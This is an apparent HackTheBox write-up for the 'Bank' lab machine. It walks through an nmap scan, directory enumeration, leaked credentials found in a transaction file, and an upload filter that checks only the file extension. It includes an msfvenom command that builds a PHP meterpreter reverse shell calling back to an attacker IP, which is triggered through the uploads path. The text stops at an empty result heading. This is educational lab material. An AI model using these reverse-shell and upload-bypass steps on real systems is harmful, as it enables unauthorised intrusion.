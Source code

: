 # Bank
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/71c41239-7326-462d-9f10-0ee1ebf1d1d8)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.29 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 00:24 PDT
Nmap scan report for 10.10.10.29
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.32 seconds
```

1. Since the machine is running a web application, let's run gobuster.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6f2049b7-a312-46c4-b701-6910f6048bd4)


2. Interesting there's an upload directory, anyway let's open the web app.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6fb85d14-3f41-4138-98e9-a8e600266a05)


3. Already tried several sqli, it seems the login page is not vulnerable to sqli.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60203418-ab63-4ed7-bbff-3fbbd563e1b4)


4. Let's check the **balance-transfer**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4abdeee-a79f-41cc-af1c-7f22747f9b59)


5. Found many hashed or encrypted (?) transaction, but the odd is, there is one transaction with smaller size.
6. The smaller size might indicate failed hash or encryption.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d359f3f-5ba4-4f73-a18b-a7adeb5ed28e)


> CHECKING THE SMALLER SIZE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f953452-e518-420b-a4fb-a0af0b8f5d37)


7. Let's use the cred to login!

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8ecfe418-37e8-4773-be37-3abe6f5fa1d7)


8. At the support option, found a file upload. This could be our interest.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2d60b788-93a2-4749-8f1f-1c09e42578ab)


> PAGE SOURCE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca5a1cad-bf5b-4c8c-a88d-92477279b8ca)


9. Turns out it is, it does not sanitize what's inside the file, it just validates the extension must be .htb.
10. Knowing this we can send our PHP payload for reverse shell.

> USING TEMPLATE FROM MSFVENOM

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.26 lport=1337 -f raw > reverse_shell.htb
```

11. Set a listener on port 1337, then upload the file.
12. Next, to trigger the reverse shell, let's opened the file we already within this endpoint --> `/uploads/reverse_shell.htb`.

> RESULT



